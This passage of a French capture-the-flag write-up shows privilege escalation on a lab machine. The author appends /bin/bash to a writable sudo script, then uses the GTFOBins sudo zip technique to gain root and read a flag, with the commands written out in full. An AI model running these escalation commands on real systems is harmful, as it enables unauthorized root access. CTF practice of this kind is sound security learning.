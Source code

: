 Parfait on peut le modifier ! Il nous suffit d'ajouter à la fin du script un simple ``/bin/bash`` pour obtenir un shell en tant que ``my2user`` lorsque le script sera exécuté.

On l'exécute donc :

```
sudo -u my2user /bin/bash /opt/scripts/check.sh
```

Et nous sommes maintenant connectés en tant que ``my2user``. On fait de nouveau un ``sudo -l`` :

```
(root) NOPASSWD: /usr/bin/zip
```

Un petit tour sur [GTFOBins](https://gtfobins.github.io/) nous donne la marche à suivre pour exploiter la faille et gagner les droits ``root`` :

```bash
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Et nous sommes **root** !

On peut aller récupérer notre premier flag :

```bash
cat /root/1_flag.txt
```

```
       .88888.                          dP           dP          dP       
      d8'   `88                         88           88          88       
      88        .d8888b. .d8888b. .d888b88           88 .d8888b. 88d888b. 
      88   YP88 88'  `88 88'  `88 88'  `88           88 88'  `88 88'  `88 
      Y8.   .88 88.  .88 88.  .88 88.  .88    88.  .d8P 88.  .88 88.  .88 
       `88888'  `88888P' `88888P' `88888P8     `Y8888'  `88888P' 88Y8888' 
      oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
                                                                          
	Mail server is rooted.
	You got the first flag: 2c393307906f29ee7fb69e2ce59b4c8a
	Now go to the web server and root it.
```

Jusqu'ici j'ai sû faire sans trop de problèmes car je suis déjà tombé sur des box similaires. Mais à partir d'ici c'était tout nouveau pour moi donc j'ai pas mal galéré.

* * *

## Deuxième énumération

On se souvient qu'il y a **3 serveurs** qui tournent sur cette machine. Nous en avons déjà rooté 1. Il faut maintenant pouvoir accéder aux deux suivants. Mais comment ?

On peut commencer à lister les interfaces présentes sur la machine :

```bash
ifconfig  

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.5  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:05  txqueuelen 0  (Ethernet)
        RX packets 347  bytes 31781 (31.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 262  bytes 41822 (41.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

